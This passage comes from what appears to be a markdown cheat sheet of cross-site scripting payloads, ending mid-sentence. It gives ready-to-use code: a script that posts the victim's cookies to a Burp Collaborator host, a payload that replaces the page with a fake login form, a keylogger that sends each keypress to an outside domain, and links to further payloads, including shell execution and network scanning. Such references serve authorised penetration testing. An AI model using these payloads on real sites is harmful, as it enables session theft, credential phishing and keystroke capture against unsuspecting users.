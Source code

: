 ### CORS

```html
<script>
  fetch('https://<SESSION>.burpcollaborator.net', {
  method: 'POST',
  mode: 'no-cors',
  body: document.cookie
  });
</script>
```

### UI Redressing

Leverage the XSS to modify the HTML content of the page in order to display a fake login form.

```html
<script>
history.replaceState(null, null, '../../../login');
document.body.innerHTML = "</br></br></br></br></br><h1>Please login to continue</h1><form>Username: <input type='text'>Password: <input type='password'></form><input value='submit' type='submit'>"
</script>
```

### Javascript Keylogger

Another way to collect sensitive data is to set a javascript keylogger.

```javascript
<img src=x onerror='document.onkeypress=function(e){fetch("http://domain.com?k="+String.fromCharCode(e.which))},this.remove();'>
```

### Other Ways

More exploits at [http://www.xss-payloads.com/payloads-list.html?a#category=all](http://www.xss-payloads.com/payloads-list.html?a#category=all):

- [Taking screenshots using XSS and the HTML5 Canvas](https://www.idontplaydarts.com/2012/04/taking-screenshots-using-xss-and-the-html5-canvas/)
- [JavaScript Port Scanner](http://www.gnucitizen.org/blog/javascript-port-scanner/)
- [Network Scanner](http://www.xss-payloads.com/payloads/scripts/websocketsnetworkscan.js.html)
- [.NET Shell execution](http://www.xss-payloads.com/payloads/scripts/dotnetexec.js.html)
- [Redirect Form](http://www.xss-payloads.com/payloads/scripts/redirectform.js.html)
- [Play Music](http://www.xss-payloads.com/payloads/scripts/playmusic.js.html)


## Identify an XSS endpoint

This payload opens the debugger in the developer console rather than triggering a popup alert box.

```javascript
<script>debugger;</script>
```

Modern applications with content hosting can use [sandbox domains][sandbox-domains]
